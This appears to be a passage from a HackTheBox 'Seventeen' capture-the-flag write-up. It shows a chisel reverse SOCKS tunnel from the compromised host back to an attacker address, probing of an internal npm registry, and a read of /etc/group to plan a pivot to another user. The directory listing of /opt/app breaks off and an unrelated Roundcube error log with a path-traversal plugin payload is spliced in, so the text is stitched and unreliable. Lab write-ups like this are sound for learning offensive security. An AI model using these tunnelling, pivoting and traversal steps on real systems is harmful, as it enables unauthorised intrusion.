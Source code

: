 Chisel Server:
```
┌──(kali㉿kali)-[~/ctf/htb/seventeen/serve]
└─$ ./chisel server -p 8083 --reverse
2022/07/20 17:14:52 server: Reverse tunnelling enabled
2022/07/20 17:14:52 server: Fingerprint aBq4cfxSuWzyr0gHl7cvrbptBXs5r4bLruCbCnEv/88=
2022/07/20 17:14:52 server: Listening on http://0.0.0.0:8083
2022/07/20 17:16:20 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Chisel Client:
```
mark@seventeen:~$ ./chisel client 10.10.14.2:8083 R:1080:socks
2022/07/20 13:14:03 client: Connecting to ws://10.10.14.2:8083
2022/07/20 13:14:03 client: Connected (Latency 23.66274ms)
```

I've setup ```proxychains``` with ```FoxyProxy``` in Firefox an browsed to http://localhost:4873/

The Website tells me to do the following:
```
No Package Published Yet.
To publish your first package just:
1. Login
npm adduser --registry http://localhost:4873/
2. Publish
npm publish --registry http://localhost:4873/
3. Refresh this page
```

Seems like we first need to pivot to kavi:
```
mark@seventeen:~$ npm adduser --registry http://localhost:4873/
Username: yeeb
Password: 
Email: (this IS public) yeeb@yeeb.xyz
npm ERR! Linux 4.15.0-177-generic
npm ERR! argv "/usr/bin/node" "/usr/bin/npm" "adduser" "--registry" "http://localhost:4873/"
npm ERR! node v8.10.0
npm ERR! npm  v3.5.2
npm ERR! code E409

npm ERR! user registration disabled : -/user/org.couchdb.user:yeeb/-rev/undefined
npm ERR! 
npm ERR! If you need help, you may report this error at:
npm ERR!     <https://github.com/npm/npm/issues>

npm ERR! Please include the following file with any support request:
npm ERR!     /home/mark/npm-debug.log
```
```Kavi``` is part of the ```plugdev``` group, that might confirms the pivot:
```
mark@seventeen:~$ ls -la /etc/group*
-rw-r--r-- 1 root root 762 May 11 13:26 /etc/group
-rw-r--r-- 1 root root 766 May 11 13:26 /etc/group-
mark@seventeen:~$ diff /etc/group /etc/group-
35c35
< plugdev:x:46:
---
> plugdev:x:46:kavi
```

There is a ```node.js``` application and a startup script located at ```/opt/app/```
Wierd thing is we can read every subdirectory expect the ```db_logger``` one:

```
mark@seventeen:/opt/app$ ls -la
total 24

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)